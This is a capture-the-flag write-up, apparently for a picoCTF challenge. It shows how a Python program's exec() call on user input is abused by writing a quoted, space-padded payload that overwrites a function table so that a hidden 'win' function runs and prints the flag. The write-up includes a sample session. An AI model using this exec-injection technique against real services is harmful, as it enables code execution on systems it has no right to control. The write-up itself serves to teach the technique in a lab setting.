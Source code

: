 To do so, we can **change** the last function, `getRandomNumber` to win and **replace** the extra characters with **spaces** to fill the 32 character entry size.

### Payload
```
"print_table                     read_variable                   write_variable                  win                             "
```

**Notice** the inclusion of `""` around the payload.  
If we carefully look at the **instruction** that defines the variable
```python
exec('global '+var_name+'; '+var_name+' = '+value)
```
It **executes** the following statement
```python
global var_name; var_name = value
``` 
The value is **not** wrapped in `""` since it might be a number.  
So we need to **explicitly** add them

The **final step** is to get the output, which is hex values, and **convert** it to an ASCII string (similarly to Picker I) to get our **flag**.

## Solution
**Overwrite** `func_table` using the `write_variable` operation with our own definition.
```
"print_table                     read_variable                   write_variable                  win                             "

```
**Execute** the fourth operation.  
**Convert** the hex values to an ASCII string.

### Example
```
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "print_table                     read_variable                   write_variable                  win                             "
==> 2
Please enter variable name to read: func_table
print_table                     read_variable                   write_variable                  win                             
==> 4
______flag hex______
```
